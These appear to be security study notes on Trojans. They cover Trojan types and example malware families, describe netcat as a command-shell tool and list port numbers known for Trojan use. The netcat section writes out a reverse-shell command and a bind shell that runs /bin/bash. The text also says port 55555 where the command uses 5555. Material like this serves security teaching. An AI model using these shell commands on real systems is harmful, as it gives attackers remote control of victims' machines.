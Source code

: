 #### Trojan

* Software that appears to perform a desirable function but instead performs malicious activity
* To hackers, it is a method to gain and maintain access to a system
* Trojans are means of delivery whereas a backdoor provides the open access

**Types of Trojans**

* **Remote Access Trojan** \(RAT\): providing attackers with full control over the victim's system, enabling them to remotely access files, private conversations, accounting data, and others
  * PoisonIvy
  * MoSucker
  * Blackhole
* **Backdoor Trojan**: RAT has UI, the client component, whereas a backdoor does not
* **Botnet Trojan**: infecting numerous of computers across a large geographical area to create a network of bots that is controlled through a Command and Control \(C&C\) center
  * Necurs
  * Mirai
* **E-banking Trojans**: intercepting victim's account informed before the system can encrypt it, and send it to the attacker's C&C center
  * Zeus
* **Proxy Server Trojan**: usually a standalone application that allows remote attackers to use the victim's computer as a proxy to connect to the Internet
* **Covert Channel Tunneling Trojan** \(CCTT\): a RAT, creating arbitrary data transfer channels in previously authorized data streams
* **Defacement Trojan**: once spreading over the system, can destroy or change the entire content present in a database
* **Command Shell Trojan**: providing a backdoor to connect to through command-line access
  * **Netcat**
    * "Swiss army knife" of tcp/ip hacking
    * Providing all sorts of control over a remote shell on a target
    * Can connect over TCP or UDP, from any port
    * Offering DNS forwarding, port mapping and forwarding and proxying
    * Connect: `nc -e IPaddress Port#`
    * Open a listening port on 55555 from target machine: `nc -l -p 5555 -e /bin/bash`
  * **CryptCat**: encrypted version of netcat

**Some Trojan Port Numbers**

| Trojan Name | Port |
| :--- | :--- |
| Death | 2 |
| Senna Spy | 20 |
| Hackers Paradise | 31,456 |
| TCP Wrappers | 421 |
| Doom, Santaz Back | 666 |
| Silencer, WebEx | 1001 |
| RAT | 1095-98 |
| SubSeven | 1243 |
| Shiva-Burka | 1600 |
| Trojan Cow | 2001 |
| Deep Throat | 6670-71 |
| NetBus | 12345-6 |
| Whack a Mole | 12361-3 |
| Back Orifice | 31337,8 |

